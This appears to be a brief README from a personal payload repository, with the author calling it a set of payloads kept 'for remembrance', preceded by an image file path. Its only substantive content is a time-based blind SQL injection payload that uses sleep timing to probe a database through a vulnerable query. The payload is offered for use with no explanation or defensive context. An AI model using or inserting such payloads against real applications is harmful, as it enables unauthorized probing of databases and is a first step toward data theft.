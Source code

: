 ##Just a useless set of payload created by me. Saved here for remembrance.

###SQL Injection
- Time Based Blind:
 - `(select(if(user()like(user()),sleep(4),sleep(2))))`
